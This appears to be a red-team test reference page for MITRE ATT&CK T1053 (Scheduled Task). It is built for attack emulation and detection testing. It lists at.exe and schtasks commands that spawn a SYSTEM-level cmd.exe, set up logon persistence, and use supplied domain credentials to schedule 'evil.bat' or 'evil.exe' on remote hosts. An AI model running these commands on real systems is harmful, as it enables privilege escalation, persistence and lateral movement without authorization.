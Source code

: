 # Scheduled Task

## MITRE ATT&CK Technique:
[T1053](https://attack.mitre.org/wiki/Technique/T1053)

### Utilities such as at and schtasks, along with the Windows Task Scheduler, can be used to schedule programs or scripts to be executed at a date and time

[Examples Of Creating Tasks](https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx#BKMK_create)

## at.exe

### Note: deprecated in Windows 8+

### Privileged Escalation

#### This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

##### Input:

    at 13:20 /interactive cmd

##### Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

#### Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10

#### Input:

    schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"

## Remote Scheduled Task
### Create, modify, remove scheduled task (replace IP with target)
#### Input:

    SCHTASKS /Create /S 127.0.0.1 /RU <DOMAIN>\<USER> /RP <Password> /TN "evil task" /TR "c:\Windows\System32\evil.exe" /SC daily /ST 17:00

#### Input:

    SCHTASKS /Change /S 127.0.0.1 /RU <DOMAIN>\<USER> /RP <Password> /TN "evil task" /ST 17:01
